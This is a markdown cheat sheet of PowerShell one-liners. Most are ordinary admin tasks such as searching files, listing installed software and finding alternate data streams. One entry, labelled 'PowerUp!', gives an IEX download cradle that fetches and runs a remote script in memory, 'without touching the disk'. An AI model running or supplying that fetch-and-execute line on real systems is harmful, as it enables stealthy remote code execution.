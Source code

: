 # PowerShell Conveniences

### Switches

`-NoExit` - Keeps ps window open; useful for debugging macros that are ran when a document is open

### Commands

Gets installed software, version, and install date.
```PowerShell
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallDate
```

Web requests (if one doesnt work, try the other). PowerUp!
```PowerShell
Invoke-WebRequest -Uri <target uri> -Method Get -Outfile <whatevs>.ps1 #IWR
powershell IEX(New-Object Net.Webclient).downloadString("<target uri>") #Invoke-Expression
#IEX if you want to execute without touching the disk
```

"which" nix-style output.
```powershell
Get-Command <your command> | Select-Object -ExpandProperty Definition
```

"grep"-like with x number of lines before or after.
```powershell
<some_cmd> | Select-String -Pattern "whatever" -Context 2,4
# print 2 lines before "whatever" and 4 lines after "whatever" (including "whatever")
```

sort uniq
```powershell
Get-Content file.txt | Sort-Object -unique
```
Find a file recursively
```powershell
gci -Path V:\Myfolder -Filter filename.ext -Recurse -ErrorAction SilentlyContinue -Force
```
Find a string within a file recursively
```powershell
ls -recurse | Select-String "google" | Select Path, LineNumber | Format-List
#alternatively
ls c:\temp\searchfolder -recurse | Select-String "google" | Select Path, LineNumber | Format-List
```
Get FQDN
```powershell
[System.Net.Dns]::GetHostByName($env:computerName)
```
Search for hidden files in a dir
```powershell
gci -recurse -Hidden -ErrorAction SilentlyContinue
```
copy files of one type from a share to your local machine, recursively
```powershell
 gci z:\ -Recurse -Filter *.xml | Copy -Destination C:\path\to\dir
 ```
wc -c equivalent
```powershell
echo "hash" | Measure-Object -Character
```
search current dir recursively for alternate data streams
```powershell
Get-ChildItem -recurse | ForEach { Get-Item $_.FullName -stream * } | Where stream -ne ':$DATA'
```

